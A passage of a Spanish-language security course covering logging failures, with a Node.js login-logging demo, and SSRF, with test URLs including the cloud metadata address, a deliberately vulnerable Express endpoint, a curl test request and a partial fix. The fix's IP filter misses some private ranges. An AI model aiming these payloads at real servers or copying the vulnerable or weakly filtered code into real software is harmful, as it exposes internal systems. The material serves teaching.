| 📝 Hacer logs detallados                 | Incluye IP, usuario, acción, hora            |
| 🔐 Proteger los logs                     | Solo accesibles para admins                  |
| 🚨 Monitorear eventos críticos           | Intentos de login fallidos, cambios de roles |
| 📡 Integrar con SIEMs (como ELK, Splunk) | Análisis centralizado de seguridad           |
| 🔔 Configurar alertas automáticas        | Email o Slack ante comportamiento anómalo    |
| 📊 Analizar logs regularmente            | No es solo almacenar, también revisar        |

---

### 🧰 Herramientas para practicar

#### ✅ OWASP Juice Shop

Incluye fallos de monitoreo y logging que puedes detectar.

```bash
docker pull bkimminich/juice-shop
docker run -d -p 3000:3000 bkimminich/juice-shop
```

Luego entra a `http://localhost:3000`

💡 Explora los retos tipo: _Security Misconfiguration_, _Logging_, etc.

---

#### ✅ ELK Stack (para monitorear)

- **Elasticsearch**: almacena logs
- **Logstash**: los procesa
- **Kibana**: los visualiza

Instala con Docker Compose o usa una plataforma como Logz.io o Elastic Cloud.

---

### ✅ Ejemplo completo paso a paso

Vamos a crear una pequeña app en **Node.js** que:

1. Tiene un sistema de login
2. Registra correctamente todos los intentos
3. Genera alertas simples si hay muchos intentos fallidos

---

#### 🛠 Paso 1: Crear el proyecto

```bash
mkdir logger-demo && cd logger-demo
npm init -y
npm install express winston body-parser
```

---

#### 📄 Código base (`index.js`)

```js
const express = require("express");
const bodyParser = require("body-parser");
const winston = require("winston");

const app = express();
app.use(bodyParser.json());

// ✅ Configuración del logger
const logger = winston.createLogger({
  level: "info",
  format: winston.format.json(),
  transports: [
    new winston.transports.File({ filename: "logs/error.log", level: "error" }),
    new winston.transports.File({ filename: "logs/activity.log" }),
  ],
});

const USERS = [{ usuario: "admin", clave: "Segura123" }];
let intentosFallidos = 0;

app.post("/login", (req, res) => {
  const { usuario, clave } = req.body;
  const user = USERS.find((u) => u.usuario === usuario && u.clave === clave);

  const ip = req.ip;
  const hora = new Date().toISOString();

  if (user) {
    logger.info({ evento: "Login exitoso", usuario, ip, hora });
    intentosFallidos = 0;
    res.send("Bienvenido, " + usuario);
  } else {
    intentosFallidos++;
    logger.warn({
      evento: "Login fallido",
      usuario,
      ip,
      hora,
      intentosFallidos,
    });

    if (intentosFallidos >= 5) {
      logger.error({ evento: "ALERTA: Muchos fallos", ip, hora });
    }

    res.status(401).send("Credenciales inválidas");
  }
});

app.listen(3000, () => console.log("App corriendo en http://localhost:3000"));
```

---

#### 📝 Resultado

- Cada intento exitoso y fallido queda en logs
- Si hay más de 5 fallos → Se genera una alerta en `error.log`
- Los logs se guardan en archivos locales

---

### 📁 Carpeta `logs/`

Tendrás archivos como:

#### `activity.log`

```json
{
  "evento": "Login exitoso",
  "usuario": "admin",
  "ip": "::1",
  "hora": "2025-07-25T12:00:00Z"
}
```

#### `error.log`

```json
{
  "evento": "ALERTA: Muchos fallos",
  "ip": "::1",
  "hora": "2025-07-25T12:02:00Z"
}
```

---

### 🔐 ¿Cómo mejorar aún más?

- Enviar logs a **Kibana** con `logstash`
- Enviar alertas por email con `nodemailer`
- Proteger los archivos de log con permisos seguros (`chmod 600`)
- Encriptar logs confidenciales

---

### 📌 RESUMEN FINAL

| Tema                      | Detalle clave                                      |
| ------------------------- | -------------------------------------------------- |
| ¿Qué es?                  | No registrar ni monitorear acciones críticas       |
| Ejemplos                  | Logins fallidos no registrados, logs sin info útil |
| Cómo practicarlo          | OWASP Juice Shop, app en Node.js                   |
| Cómo prevenirlo           | Usar logs con IP, timestamp, alertas, revisión     |
| Herramientas recomendadas | Winston, ELK, Splunk, SIEM, Zabbix, Prometheus     |

---

[🔼](#índice)

---

## **772. Server-Side Request Forgery**

### 📌 ¿Qué es SSRF?

**SSRF (Server-Side Request Forgery)** es una vulnerabilidad que permite a un atacante forzar a un **servidor vulnerable** a enviar **peticiones HTTP** a **otros servidores internos o externos**, muchas veces sin que el servidor se dé cuenta.

👉 En otras palabras: **el atacante engaña al servidor para que actúe como un proxy** y realice una solicitud maliciosa.

---

### 🧠 Ejemplo fácil de entender

#### Escenario:

Una aplicación permite al usuario cargar una imagen desde una **URL externa**:

```http
POST /cargar-imagen
{
  "url": "http://example.com/foto.jpg"
}
```

El servidor descarga la imagen y la guarda.

#### ❌ SSRF simple:

El atacante cambia la URL y pone algo como:

```json
{
  "url": "http://localhost:8000/admin"
}
```

El servidor, sin saberlo, accede a un **recurso interno** que debería estar protegido (como una base de datos, metadata cloud, etc).

---

### 🎯 ¿Qué puede hacer un atacante con SSRF?

| Ataque posible             | Descripción                                                                  |
| -------------------------- | ---------------------------------------------------------------------------- |
| 📥 Leer datos internos     | Acceder a `http://localhost`, `http://127.0.0.1`, o `http://169.254.169.254` |
| 🌐 Escanear la red interna | Detectar puertos abiertos, servicios internos                                |
| 🔐 Saltarse firewalls      | El servidor puede acceder a recursos a los que el atacante no puede          |
| 💥 Ataques en cadena       | Usar SSRF para lograr RCE, XSS, LFI, etc.                                    |

---

### ⚠️ Servicios típicamente vulnerables

- Funciones que toman URLs del usuario (para descargar archivos, validar enlaces, cargar imágenes, etc)
- Formularios de carga por URL
- Herramientas PDF o thumbnails online
- APIs que permiten enviar peticiones a otras URLs

---

### 🧪 Cómo probar SSRF (manual y automático)

#### 1. URL internas sospechosas:

- `http://localhost`
- `http://127.0.0.1`
- `http://169.254.169.254` → Metadata en AWS/Cloud

#### 2. Herramientas para detectar:

- 📦 **Burp Suite** (intercepta y modifica peticiones)
- 🔎 **SSRFire** (automatiza escaneos de SSRF)
- 🧪 **OWASP ZAP** (scanner gratuito)

---

### 🛡️ ¿Cómo prevenir SSRF?

| Acción                                            | Descripción                                             |
| ------------------------------------------------- | ------------------------------------------------------- |
| ✅ Validar y filtrar URLs                         | Solo permitir dominios confiables, validar IPs          |
| 🚫 No permitir `localhost`, IP privadas           | Evitar accesos a `127.0.0.1`, `10.x.x.x`, `169.254.x.x` |
| 🔒 No hacer redirecciones internas                | Nunca seguir redirecciones sin validación               |
| 🛑 Desactivar resoluciones DNS si no es necesario | Evita resolver nombres de dominio no controlados        |
| 🌐 Usar firewalls salientes                       | Bloquear acceso a recursos internos desde servicios web |
| 🚨 Monitorear peticiones anómalas                 | Detectar patrones de acceso interno no habituales       |

---

### 🧰 Cómo instalar entorno vulnerable

#### ✅ Usaremos **OWASP Juice Shop** para practicar

```bash
docker pull bkimminich/juice-shop
docker run -d -p 3000:3000 bkimminich/juice-shop
```

Luego accede a: [http://localhost:3000](http://localhost:3000)

💡 Busca el reto "Server-side" o “SSRF” en el menú de retos.

---

### 🔧 Ejemplo completo paso a paso

Vamos a crear una **aplicación vulnerable a SSRF** y luego la **solucionamos**.

#### 🧪 Paso 1: Crear app vulnerable en Node.js

```bash
mkdir ssrf-demo && cd ssrf-demo
npm init -y
npm install express axios body-parser
```

---

#### 📄 `index.js` — versión vulnerable

```js
const express = require("express");
const bodyParser = require("body-parser");
const axios = require("axios");

const app = express();
app.use(bodyParser.json());

app.post("/fetch-url", async (req, res) => {
  const { url } = req.body;

  try {
    const response = await axios.get(url); // 🔴 sin validación
    res.send(response.data);
  } catch (err) {
    res.status(500).send("Error al acceder a la URL");
  }
});

app.listen(3000, () => console.log("Servidor en http://localhost:3000"));
```

---

#### 🧪 Cómo probarlo

Envía una petición con `curl` o Postman:

```bash
curl -X POST http://localhost:3000/fetch-url \
  -H "Content-Type: application/json" \
  -d '{"url": "http://localhost:3000/admin"}'
```

🔴 Si responde: ¡la app es vulnerable a SSRF!

---

### 🛠️ Solución segura: Validar la URL

Actualiza `index.js` para bloquear IPs internas:

```js
const net = require("net");
const dns = require("dns").promises;

function isInternalIp(ip) {
  return (
    ip.startsWith("127.") ||
    ip.startsWith("10.") ||
    ip.startsWith("192.168.") ||
    ip === "localhost"
  );
}

async function validarUrlSegura(url) {
  const hostname = new URL(url).hostname;
  const addresses = await dns.lookup(hostname);
  return !isInternalIp(addresses.address);
}

app.post("/fetch-url", async (req, res) => {
  const { url } = req.body;

  try {
    const seguro = await validarUrlSegura(url);
    if (!seguro) return res.status(403).send("URL prohibida por seguridad");

    const response = await axios.get(url);
    res.send(response.data);
  } catch (err) {
    res.status(500).send("Error al acceder a la URL");
  }
});
```

---

### 📌 Resumen final

| Tema            | Detalle                                                           |
| --------------- | ----------------------------------------------------------------- |
| ¿Qué es SSRF?   | Cuando el servidor hace solicitudes por el atacante               |
| Riesgos         | Acceder a redes internas, metadata cloud, escaneo de puertos      |
| Cómo se explota | Usando URLs internas en funciones que hacen solicitudes           |
| Cómo prevenir   | Validar dominios, bloquear IPs privadas, usar firewalls salientes |
| Cómo practicar  | Juice Shop, app vulnerable con axios en Node.js                   |

---

[🔼](#índice)

---

| **Inicio**         | **atrás 7**                                                | **Siguiente 9**                                    |
| ------------------ | ---------------------------------------------------------- | -------------------------------------------------- |
| [🏠](../README.md) | [⏪](./7_7_Seguridad_Informatica_para_Equipos_Tecnicos.md) | [⏩](./7_9_Curso_de_Introduccion_al_Pentesting.md) |
